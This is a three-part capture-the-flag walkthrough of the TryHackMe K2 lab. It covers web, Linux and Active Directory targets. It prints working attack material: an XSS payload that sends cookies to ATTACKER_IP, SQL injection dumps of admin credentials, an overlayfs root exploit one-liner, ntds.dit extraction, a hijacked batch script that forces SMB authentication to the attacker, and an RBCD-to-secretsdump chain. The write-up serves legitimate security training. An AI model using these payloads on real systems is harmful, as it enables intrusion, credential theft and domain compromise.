# K2 Base Camp
This is the first installment of a three part box. It is rated hard difficulty on THM and includes both Linux and Windows/AD components.

_Are you able to make your way through the mountain?_

## Scanning & Enumeration
First things first, I start an Nmap scan to find running services on the given IP. I also add k2.thm to my /etc/hosts file as that is what was provided in the engagement.



There are only two ports open:
- SSH on port 22
- An nginx web server on port 80

I also keep a UDP Nmap scan running in the background to discover any ports listening as a backup. Looks like this will most likely be web heavy, so I begin a Gobuster dir search in the background and take a look at the landing page.



This is a static page with Latin boilerplate text for almost everything so we can’t do much OSINT or recon on these pages. My directory busts only come back with a /home endpoint which redirects to the same spot, so this leaves us with the contact form.


I begin testing for injection vulnerabilities and XSS but find that the default request to the contact form is not allowed.





I capture a request in Burp Suite and see that our data gets URL encoded before being sent and that GET, OPTIONS, and HEAD are allowed as methods.



I tried enumerating subdomains with gobuster/subfinder and also saw false links to their social media accounts, so I went searching for anything on Google. I got two hits on subdomains for the site: Admin and IT.



I add those to my /etc/hosts file as well and start enumeration on them. it.k2.thm looks to be a way to log into the ticketing system via username and password. We can also create our own account to search internally.



Admin.k2.thm is relatively the same without the registration tab, so let’s create an account and start looking for account privesc or leaked creds.



Once logged in, we can submit a ticket which will presumably be reviewed by an admin or ticket support. I dig deeper into the requests being sent with our ticket.



This session cookie looks like Flask and not a standard JWT. I use [jwt.io](https://www.jwt.io/) to analyze this and find that we supply auth_username, id, and loggedin parameters.



## Cross Site Scripting
I begin directory searches in the background and start testing for XSS/injection attacks as well as a brute force on the admin login page. While testing for XSS, I get a hit back from the description field in the support ticket.



This site is indeed vulnerable to XSS attacks. Now, let’s see if we can use this to steal an admin session cookie and login on admin.k2.thm .


I hit a bit of a roadblock as the Web App Firewall detected a malicious attempt and blocked it, at least it was kind enough to notify me. A bit more trial and error showed that it triggered whenever I supplied document.cookie .

There is an easy way to bypass this by means of storing the cookie in a variable within the script and having it execute after the fact. This ensures that it maintains functionality but still gets by the check for malicious strings.

```
<script>var c='coo'+'kie';document.location='http://ATTACKER_IP/?c='+document[c];</script>
```

[OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation) also has great resources for bypassing WAFs, including a cheat sheet for attacks like these.



Now, we need to change our browser’s cookie to match that one and visit admin.k2.thm/dashboard directly. I think there is some kind of script that deletes cookies at login on the admin panel, but just using the cookie at a known endpoint works well.



## SQL Injection
I gather a few more usernames with this and test for more injection attacks in the ticket title field. Using a single apostrophe ( ‘ ) returns an internal server error.


This confirms that we can use SQLi to leak some info in the database. However, using a simple payload like ‘ OR 1=1-- - shows that there is another firewall detecting possible attacks and terminates our session if so.



Same thing happens when I send the captured request to SQLmap, so I’ll have to test manually. It seems like OR is a bad operator so we can swap it for || which is the same thing, also UNION is allowed.

[PortSwigger](https://portswigger.net/web-security/sql-injection/examining-the-database) has a great article on how to enumerate databases via SQLi. This is where I refer to when finding a vulnerability like this.

First, I go about enumerating the amount of columns.



Then the version using the version descriptor in one of the column spots.

```
title=' UNION select 1,2,@@version-- -
```



Then the database.

```
title=' UNION select 1,2,concat(database())-- -
```



Next is tables.

```
title=' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables  WHERE table_schema=database() -- -
```



Admin_auth looks to be the most interesting so I check that out.

```
' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_schema = database() and table_name ='admin_auth'-- -
```



Finally, I list the admin usernames and passwords with a colon delimiter so it looks nice.

```
title=' UNION SELECT 1,2,group_concat(admin_username, ':', admin_password) from admin_auth-- -
```



Let’s store those in a creds.txt file and try credstuffing on SSH to grab a shell.



## Privilege Escalation
I get a successful login as James and see there’s only one other user on the system (Rose). Attempting to login as her doesn’t work so I start my routine for privesc.

No Sudo privs, SUID/SGID bits or creds in backups. However, looking at the kernel version, it seemed outdated. This version of Ubuntu is prone to a local root privilege escalation via overlayfs.

[This is my source](https://github.com/ThrynSec/CVE-2023-32629-CVE-2023-2640---POC-Escalation/blob/main/poc.sh) for the PoC used.

``` bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; python3 -c 'import os;os.setuid(0);os.system(\"/bin/bash\")'"
```



This does something strange, checking directory permissions in James’ shell shows that it’s owned by root, however when we privesc using that method, everything is switched to being owned by nobody.

I tried wrapping my head around this and couldn’t find an answer, even though we were root, nothing was owned by us including the sudoers file so I couldn’t change that either.

Heading back to James’ shell I find that we are in the adm group, meaning we’re allowed to read /var/log . I grep for ‘pass’ there in hopes that rose or root accidentally leaked their password and find one for rose.

_Note: I had brute forced the admin page for a while earlier, which I think triggered a wipe of the logs. I had to reset the box for this to even show up._



Using that to login as Rose actually doesn’t work which piqued my interest. I tried using it for root and it succeeds. Looks like they made a mistake when signing in at admin.k2.thm and used the wrong username.

We can find the full names of users on the box inside /etc/passwd . Since we still don’t have Rose’s password, I check her .bash_history file and find that she made a type when switching users to root.



One final command gives us the root flag and we can head over to ‘Middle Camp’.



That’s all for Base Camp, I’ll see y’all over in the next part for the Windows machine. I hope this was helpful to anyone stuck or following along and happy hacking!


# K2 Middle Camp

This is the second installment of the three part box. It is rated hard difficulty on THM and includes both Linux and Windows/AD components.

_Are you able to make your way through the mountain?_

## Scanning & Enumeration
Since this is another machine entirely, we need to restart our recon. As always, an Nmap scan is first in order to find running services and know what we’re dealing with.

```
$sudo nmap -sCV 10.64.131.190 -oN fullscan.tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-11 21:21 CST
Nmap scan report for 10.64.131.190
Host is up (0.043s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-12 03:21:35Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-12T03:22:21+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=K2Server.k2.thm
| Not valid before: 2026-01-11T03:17:24
|_Not valid after:  2026-07-13T03:17:24
| rdp-ntlm-info: 
|   Target_Name: K2
|   NetBIOS_Domain_Name: K2
|   NetBIOS_Computer_Name: K2SERVER
|   DNS_Domain_Name: k2.thm
|   DNS_Computer_Name: K2Server.k2.thm
|   DNS_Tree_Name: k2.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-12T03:21:41+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: K2SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-12T03:21:42
|_  start_date: N/A
```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.04 seconds
It looks like this one is Windows with Active Directory components installed as well. We are almost certainly dealing with a Domain Controller here as the server is leaking the FQDN of K2Server.k2.thm and another domain of k2.thm .

I add those two to my /etc/hosts file before starting with the easiest services to enumerate. Beginning with guest authentication on SMB to find any shares available returns nothing.



There’s not a whole lot to go off of since we don’t have a webpage to scourge. We already know of two employees: James Bold and Rose Bud. I use a JTR rule ([found here](https://www.kali.org/tools/evil-winrm/)) to create a wordlist of potential usernames to send to [Kerbrute](https://www.kali.org/tools/evil-winrm/) for pre-auth enumeration.



We have two valid users and the naming convention for Active Directory accounts.

I try reusing the passwords found in part one for an easy win and discover that Rose has the same one here.



I use this to authenticate on SMB and enumerate shares, however she doesn’t have read permissions for anything flashy. There is an ADMIN$ share I’d look to take a look at down the road.



## Initial Foothold
Rose has access to Win-RM into the domain controller so I use [Evil-WinRM](https://www.kali.org/tools/evil-winrm/) to grab a shell and look around.



There are a couple notes Rose left regarding how weak James’ password was. I double check to see if he had changed it yet and all attempts fail. The password requirements are leaked which will be a huge help if I decide to brute force his account. I don’t really find any easy wins for privilege escalation so it looks like that’s the case.

Since this is pretty easy, I prompt ChatGPT to make me a script to create a wordlist adhering to these requirements. James doesn’t seem that bright to me so I’m gonna go out on a limb and say the first part is still ‘rockyou’.

This is the final script I ended up using:

```python
#!/usr/bin/env python3

base = "rockyou"

special_chars = "!@#$%^&*()_-+=<>?"
output_file = "passwords.txt"

with open(output_file, "w") as f:
    for num in range(0, 1000):  # 0–999
        for special in special_chars:
            candidates = [
                f"{base}{num}{special}",
                f"{base}{special}{num}",
                f"{num}{special}{base}",
                f"{special}{num}{base}",
                f"{num}{base}{special}",
                f"{special}{base}{num}",
            ]

            for pwd in candidates:
                if 6 <= len(pwd) <= 12:
                    f.write(pwd + "\n")

print(f"[+] Password list generated: {output_file}")
```

This wordlist guarantees all possible passwords with those reqs which is about 34,000.



I swap back to Kerbrute for authentication and find a valid password for his account as well.



## Mapping AD
Tough part is that James still doesn’t have access to Win-RM into the DC so I’ll use bloodhound to grab some more info on what he can do.



While letting that load, I see another user named J.smith found through sid enumeration. Inspecting privileges for some more time revealed that since James was apart of the IT Staff, he had GenericAll privileges over J.smith’s account.

This means we can literally just change his password and evil-winrm into the DC to grab a shell as them.



Our first flag is sitting in his Desktop directory and now we can start looking for methods of grabbing the Admin’s NTLM hash.

## Privilege Escalation

While checking what privileges J.smith has, I find that SeBackup and SeRestore privs are enabled on their account. We can abuse these to create a backup of ntds.dit and extract the admin hash from it.



I will be referring to [this article](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960) while exploiting these privileges. It goes in depth on a few methods of creating malicious backups of ntds.dit .

Essentially, we will use two built in Windows utils to create a copy of the in-use C:\ drive and copy it to another drive to extract the Admin’s NTLM hash inside of ntds.dit .

First, I create a script which creates a copy of the C:\ drive and exposes it at E:\. I upload this with evil-winrm after converting it to DOS formatting with the unix2dos utility.

The script looks something like:

```powershell
set context persistent nowriters
add volume c: alias priv
create
expose %priv% e:
```


Then I make a C:\Temp directory and execute diskshadow on the script I uploaded inside of it.



Next is using robocopy to copy the ntds.dit file to our Temp dir and read the hash.



Finally, we can create a raw copy of the SYSTEM registry hive and store it. Let’s download these to our local machine and use impacket’s secretdump to extract some hashes.



All that’s left to do is pass the hash using evil-winrm one more time to grab a shell as administrator and read the root flag.



I also use this hash to authenticate on SMB and grab the plaintext password for admin as we may need it for The Summit. The--dpapi option dumps all DPAPI credentials using netxec which grants us admin creds.


That completes the Middle Camp part of the box, I’ll see ya in the final room. I hope this was helpful to anyone stuck or following along and happy hacking!

# K2 The Summit

This is the third and final installment of the three part box. It is rated hard difficulty on THM and includes both Linux and Windows/AD components.

_Are you able to make your way through the mountain?_

## Scanning & Enumeration

Again we have a different machine, so I begin my recon for this system by running an Nmap scan to find all available services. We’ll have to add the flag -Pn as it blocks ICMP packets by default.

```
$sudo nmap -sCV -Pn 10.65.131.215 -oN fullscan.tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-12 00:52 CST
Nmap scan report for k2.thm (10.65.131.215)
Host is up (0.044s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-12 06:52:51Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: k2.thm0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-12T06:53:33+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=K2RootDC.k2.thm
| Not valid before: 2026-01-11T06:49:32
|_Not valid after:  2026-07-13T06:49:32
| rdp-ntlm-info: 
|   Target_Name: K2
|   NetBIOS_Domain_Name: K2
|   NetBIOS_Computer_Name: K2ROOTDC
|   DNS_Domain_Name: k2.thm
|   DNS_Computer_Name: K2RootDC.k2.thm
|   DNS_Tree_Name: k2.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-12T06:52:54+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: K2ROOTDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-12T06:52:55
|_  start_date: N/A
```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.70 seconds
Looks to be another Windows AD environment with almost the exact same setup. The server gives us a FQDN of K2RootDC.k2.thm and another domain of k2.thm . Let’s see if we can root this domain controller!

I’ll start by enumerating SMB shares, while testing for credential reuse from the previous parts.

```
nxc smb k2rootdc.k2.thm -u users.txt -p passwords.txt --shares
```

_Note: users.txt contains all usernames enumerated in first initial + last name format, while passwords.txt are all plaintext passwords gathered._



I got a successful login as j.smith using the administrator’s plaintext password we got by dumping the DPAPI creds in the Middle Camp.

I use his credentials to evil-winrm onto the DC and have a look around. We see two other users on the system: Administrator and o.armstrong.

J.smith doesn’t have any crazy privileges to use this time around so I’ll need to find or brute force armstrong’s pass/hash somehow.

I do some more digging on the system and find an unusual directory in the C:\ drive. There is a batch script which gets used to back up a notes file in o.armstrong’s Desktop into his Documents folder.



Backups are usually scheduled tasks, so if we can alter this file to something malicious, it won’t be us executing it. We can’t actually write to this file but we can delete it and create a new one in its place.

First I test it out by having it copy that notes file to my current one to test if the system executes it. This works indeed!

Next, I’ll be using a trick I learned from [Ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA). If we force a connection to us over SMB, it attempts to authenticate with us and we can grab the hash with the responder tool.

I change the backup.bat script to reach out to us with:

```
Set-Content -Path "C:\Scripts\backup.bat" -Value "net use \\ATTACKING_IP\share"
```

_Note: Simply echoing a command into a new backup.bat file won’t work, we need to set the path and value directly._

Then, I set up a listener with:

```
sudo responder -I tun0
```

_Note: I use tun0 as my interface as I’m on a VPN_



I send that hash over to JTR in hopes of cracking it with rockyou.txt.



Let’s evil-winrm as o.armstrong and start looking for ways to grab admin privileges. We can also snag the user flag from their Desktop folder.



I check what groups our current account is apart of.



I was stuck for a bit here while researching potential vulnerabilities and decided to fire up bloodhound.

```
bloodhound-python -d k2.thm -c All -u 'j.smith' --hashes 'HASH1:HASH2' -dc k2.thm -ns 127.0.0.1
```

After letting that ingest for a few minutes, I see that IT Director has general write permissions over the system. Using this, there is a way for us to add our own account to the system, impersonate administrator and request a Kerberos ticket for a service on the DC, where we can extract and crack the hash.

[This article](https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5) goes very in depth on how we can exploit RBCD to grab all hashes on a Domain Controller.

I spent a lot of time trying to get the LDAPS method to work thinking it was the only way. I checked out [0xb0b’s writeup](https://0xb0b.gitbook.io/writeups/tryhackme/2024/k2/the-summit#privilege-esclatation) and found that there was a problem



Our connection gets reset by peer for every request to add a computer to the system. Simply changing the method to SAMR resolves this issue and we are in!



Huge thanks to 0xb0b, Jaxafed, and Giulio Pierantoni for explaining how this attack chain works. The full exploit goes as follows:

First we add our computer account to the k2.thm domain by authenticating with o.armstrong’s creds. Here’s [a link](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) to the addcomputer.py script.

```
addcomputer.py -method SAMR -computer-name 'ATTACKERCOMPUTER$' -computer-pass 'password123' -dc-host K2rootDC.K2.THM -domain-netbios K2.THM 'K2.THM/o.armstrong:PASSWORD'
```


Then, we delegate permissions from our attacking system to the DC machine using Resource Based Constraint Delegation. Here is [a link](https://github.com/fortra/impacket/blob/master/examples/rbcd.py) to that script.

```
rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'K2ROOTDC$' -action 'write' 'K2.THM/o.armstrong:PASSWORD'
```



Now, we impersonate the administrator in order to grab a Kerberos service ticket for the cifs service on the DC. Here’s [a link](https://github.com/fortra/impacket/blob/master/examples/getST.py) to getST.py .

```
getST.py -spn 'cifs/K2ROOTDC.k2.thm' -impersonate 'Administrator' 'K2.THM/attackersystem$:password123'
```



Finally, we export the cache file for secretsdump.py to extract password hashes from the DC without use of credentials whatsoever.

```
export KRB5CCNAME=Administrator@cifs_k2rootdc.k2.thm@k2.thm.ccache

secretsdump.py -k -no-pass 'k2.thm/Administrator@k2rootdc.k2.thm'
```



All that’s left is to evil-winrm into the DC as administrator using the hash we just gathered and collect the root flag.

```
evil-winrm -i k2rootdc.k2.thm -u 'administrator' -H 'HASH'
```



There we go, that completes the final machine for this box. I had a lot of fun learning new attack paths, especially in this last section. I’d say it was pretty difficult for me as Windows and AD machines aren’t exactly my strong suit, but it all comes with experience.

I hope this was helpful to anyone stuck like I was or following along and happy hacking!
